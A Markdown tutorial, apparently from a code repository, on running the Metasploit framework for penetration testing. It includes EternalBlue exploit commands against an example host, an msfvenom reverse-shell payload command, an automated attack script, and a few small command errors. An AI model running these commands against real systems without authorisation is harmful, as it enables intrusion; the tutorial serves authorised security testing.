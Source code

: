 # Detailed Documentation on Using Metasploit for Network Penetration Testing

## Introduction

Metasploit is a powerful penetration testing framework that allows security professionals and ethical hackers to identify, exploit, and manage vulnerabilities in a network. It is one of the most widely used tools for assessing network security. This detailed documentation will guide you through using Metasploit effectively for network penetration testing.

## Installation

Metasploit is available for various platforms. To install Metasploit, follow the instructions for your specific operating system:

- **Linux**: You can install Metasploit on Linux, such as Kali Linux, using package managers like APT. Run the following commands:
  
  ```bash
  sudo apt update
  sudo apt install metasploit-framework
  ```

- **macOS**: You can use Homebrew to install Metasploit on macOS. Run the following commands:

  ```bash
  brew update
  brew install metasploit
  ```

- **Windows**: Download the Windows installer from the official Metasploit website: [Metasploit Download Page](https://www.metasploit.com/)

## Basic Usage

### 1. Starting Metasploit

- Start Metasploit by running the following command:

  ```bash
  msfconsole
  ```

- This opens the Metasploit console.

### 2. Searching for Exploits

- You can search for available exploits using the `search` command within the Metasploit console. For example:

  ```bash
  search windows smb
  ```

- This command searches for exploits related to Windows SMB services.

### 3. Selecting an Exploit

- Use the `use` command to select an exploit module. For example:

  ```bash
  use exploit/windows/smb/ms17_010_eternalblue
  ```

- This selects the EternalBlue exploit, which targets Windows SMB services.

### 4. Setting Exploit Options

- Set the necessary options for the selected exploit module using the `set` command. For example:

  ```bash
  set RHOST 192.168.1.100
  ```

- This sets the remote host (target) IP address.

- You can use the `show options` command to view the current options and their values.

### 5. Running the Exploit

- To launch the selected exploit, use the `exploit` command:

  ```bash
  exploit
  ```

- This will attempt to exploit the target with the selected module.

### 6. Handling Sessions

- If the exploit is successful, you will get a Meterpreter or shell session. Use the `sessions` command to list active sessions:

  ```bash
  sessions
  ```

- Use the `session -i <session_number>` command to interact with a specific session:

  ```bash
  sessions -i 1
  ```

### 7. Post-Exploitation

- Once you have access to a remote system, you can perform various post-exploitation actions, such as gathering information, pivoting, or running additional exploits.

- Use Metasploit's post-exploitation modules to conduct these activities.

### 8. Exiting Metasploit

- To exit Metasploit, use the `exit` command:

  ```bash
  exit
  ```

## Advanced Usage

### 1. Using Meterpreter

- Metasploit can provide Meterpreter, a powerful post-exploitation tool. When you gain a Meterpreter session, you can interact with the target system extensively.

- To interact with a Meterpreter session, use the `sessions` command and then `session -i <session_number>` as shown earlier.

### 2. Creating Custom Exploits

- Metasploit allows you to create custom exploit modules. The `msfvenom` tool can generate payloads for your exploits.

- For example, you can create a Windows reverse shell payload with the following command:

  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=<your_IP> LPORT=<your_port> -f exe -o payload.exe
  ```

- Then, use this payload in a custom Metasploit module.

### 3. Post-Exploitation Modules

- Metasploit includes a wide range of post-exploitation modules for activities like data exfiltration, privilege escalation, lateral movement, and more.

- Use the `search` command within the Metasploit console to find relevant post-exploitation modules.

### 4. Meterpreter Scripts

- You can extend the functionality of Meterpreter sessions by using built-in scripts. To list available scripts, use the `run post/multi/manage/autoroute` command, for example.

### 5. Resource Scripts

- Metasploit allows you to create resource scripts (`.rc`) that automate sequences of commands. For example, to automate the setup of an exploit:

  ```bash
  use exploit/windows/smb/ms17_010_eternalblue
  set RHOST 192.168.1.100
  exploit
  ```

- Save this in a `.rc` file and execute it with `msfconsole -r script.rc`.

## Conclusion

Metasploit is a versatile and powerful tool for network penetration testing. This documentation provides an in-depth overview of its capabilities, from basic exploitation to advanced post-exploitation. Remember that ethical hacking guidelines must always be followed, and penetration testing should only be conducted on systems for which you have explicit permission. Respect privacy and data protection laws when conducting network penetration tests.
